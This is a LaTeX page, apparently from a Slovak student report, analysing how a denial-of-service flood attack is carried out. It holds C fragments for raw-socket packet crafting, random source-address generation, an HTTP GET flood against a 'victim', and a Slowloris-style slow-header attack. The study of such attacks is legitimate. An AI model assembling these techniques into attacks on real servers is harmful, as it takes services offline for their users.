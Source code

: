 \documentclass[12pt, a4paper]{article}
\begin{document}
\begin{figure}[h!]
\begin{subfigure}[t]{.32\textwidth}
	\end{subfigure}
\end{figure}

\subsection{Analýza prevedenia DoS útoku záplavou}
\begin{lstlisting}
int s = socket(AF_INET, SOCK_RAW, IPPROTO_RAW);
strcpy(ifr.ifr_name, "enp3s0"); 
ioctl(s, SIOCGIFINDEX, &ifr);
setsockopt(s, SOL_SOCKET, SO_BINDTODEVICE, &ifr);
setsockopt(s, IPPROTO_IP, IP_HDRINCL, (char *)&one, sizeof(one));
\end{lstlisting}
\begin{lstlisting}
in_addr_t ip_random(in_addr_t net, int cidr)
{
    in_addr_t net_mask = (~0 << (32 - cidr));
    in_addr_t host_mask = ~net_mask;
    in_addr_t target_host = 0;
    if (host_mask != 0) target_host = rand() % host_mask;
    return htonl((ntohl(net) & net_mask) | target_host);
}
\end{lstlisting}
\begin{lstlisting}
int s = socket(AF_INET, SOCK_STREAM, 0);
connect(s, (struct sockaddr *)&victim, sizeof(victim))
snprintf(buffer, LEN, "GET /?%d HTTP/1.1\r\n", randint(0, 1000));
send(s, buffer, strlen(buffer), 0);
\end{lstlisting}
\begin{lstlisting}
for (int i = 0; i < CNT; i++) {
    snprintf(buffer, BUF_LEN, "X-a: %d\r\n", randint(1, 50000));
    send(sockets[i], buffer, strlen(buffer), 0);
}
sleep(10);
\end{lstlisting}
\end{document}
